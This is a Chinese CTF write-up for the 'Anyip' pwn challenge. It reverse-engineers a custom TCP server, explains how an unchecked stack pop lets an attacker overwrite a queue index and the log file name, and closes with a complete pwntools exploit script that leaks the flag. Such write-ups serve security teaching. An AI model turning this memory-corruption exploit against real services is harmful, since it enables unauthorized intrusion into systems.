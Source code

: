# Anyip

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

题目实现了一个最基础的tcp服务器，用户需要输入二进制内容和它进行交互。
根据读取缓冲区并parse的函数，可以总结出以下输入的规律：

![struct](assets/struct.png)

其中 *action* 可以是`0x1111`, `0x2222`, `0x3333`或`0x4444`，分别对应树打印、
栈操作、树构建和队列操作。

其中栈和队列的操作比较好逆，可以通过 *opt* 来控制退栈和压栈等。
其中logname会在一开始按时间戳生成一个，我们不能通过打log来获取它的输出。
观察到操作栈时，压栈有检查，退栈却没有，分析bss上的布局，
我们可以覆盖到控制队列的`rear`。入队的时候直接用了`rear`来访问队列，
随后`rear = (rear + 1) % 10`，因此我们控制`rear`后可以向后方写入一个数字 *buf* 。
最简单的就是控制`bp`，然后我们就可以无限压栈，压到`sp`后，将`logname`的偏移压入其中，
接着就可以控制log文件的名字了。

![layout](assets/bsslayout.png)

再然后就是难逆的树操作了。一开始还不太好看出来，因为有个0x50大小的结构体，
却没有任何信息。最后在一堆函数里找到这么个字符串：`"cannot create std::deque larger than max_size()"`，
借助C++编译一个空的deque然后-g生成调试符号，终于在Ghidra里读到了整个结构体的全貌，
同时也推出了其他的库函数，可以分析了。最后还原出的树构建的函数大约是这样的：

```c
struct Node {
    char ch;
    Node *lchild;
    Node *rchild;
} *root;

void insert(char ch) {
    deque<Node *> dequeue;
    Node *node = root;
    dequeue.push_back(node);
    while (!dequeue.empty()) {
        node = dequeue.front();
        if (!node->lchild || !node->rchild)
            break;
        dequeue.push_back(node->lchild);
        dequeue.push_back(node->rchild);
        dequeue.pop_front();
    }
    if (!node->lchild)
        node->lchild = new Node(ch);
    else
        node->rchild = new Node(ch);
}

void tostring(string &acc) {
    Node *node = root;
    while (node || !dequeue.empty())
        if (node) {
            dequeue.push_back(node);
            node = node->lchild;
        } else {
            node = dequeue.back();
            acc += node->ch;
            dequeue.pop_back();
            node = node->rchild;
        }
}
```

> [!TIP]
> 当不开优化选项时，C++的大量函数模板实例化后没有内联，导致这道题的很多函数是空的，
> 逆向难度变相提高了。如果开启了编译选项，结构体信息会全部打包进ELF中，使用反编译软件可以读取之，
> 从而方便我们backport类的结构体到题目中。（虽然还是要猜它是什么类）

根据以上代码，在插入节点时，使用BFS方式填充节点（也就是数组平铺式），
在构建字符串时使用中序遍历取出节点。在树打印函数中，如果中序遍历树得到`SomeIpfun`，
那么就会打开log文件并输出其中的内容。这也是唯一的输出内容的地方。

因此控制树节点使其中序遍历为`SomeIpfun`，并劫持`logname`为`"flag"`就可以输出flag。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anyip'

def payload(lo: int):
    global sh, server
    if lo:
        if lo & 4 or not isinstance(server, process):
            server = process(EXE)
        if lo & 2:
            gdb.attach(server)
        sh = remote('127.0.0.1', 9999)
    else:
        sh = remote('', 9999)

    def encode(op: int, option: int, buf: bytes) -> bytes:
        return p16(op) + b'\0' + p8(option) + p64(0) + p32(0x701) + buf

    def send(buf: bytes):
        sh.send(buf)
        sleep(0.125)

    info('Setting up bp to bypass stack limitation')
    for _ in range(5):
        send(encode(0x2222, 2, b'')) # stack pop
    send(encode(0x2222, 1, b'27'))   # stack push: [rear] = &sp - &queue
    send(encode(0x4444, 1, b'4096')) # queue push: [bp] = 0x1000
    info('Setting sp to 16 to mod logname')
    for _ in range(14):
        send(encode(0x2222, 1, b'0'))
    send(encode(0x2222, 1, b'16'))   # stack push: [sp] = &logname - &stack
    info('Now set logname as "flag"')
    send(encode(0x2222, 1, str(u32(b'flag')).encode()))
    send(encode(0x2222, 1, b'0'))    # logname = "flag"

    info('Setting up char tree')
    sh.send(encode(0x3333, 3, b'p'))
    sh.send(encode(0x3333, 1, b'e'))
    sh.send(encode(0x3333, 1, b'u'))
    sh.send(encode(0x3333, 1, b'o'))
    sh.send(encode(0x3333, 1, b'I'))
    sh.send(encode(0x3333, 1, b'f'))
    sh.send(encode(0x3333, 1, b'n'))
    sh.send(encode(0x3333, 1, b'S'))
    sh.send(encode(0x3333, 1, b'm'))

    info('Now print the flag!!!')
    sh.send(encode(0x1111, 2, b''))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode()}")
    sh.close()
```
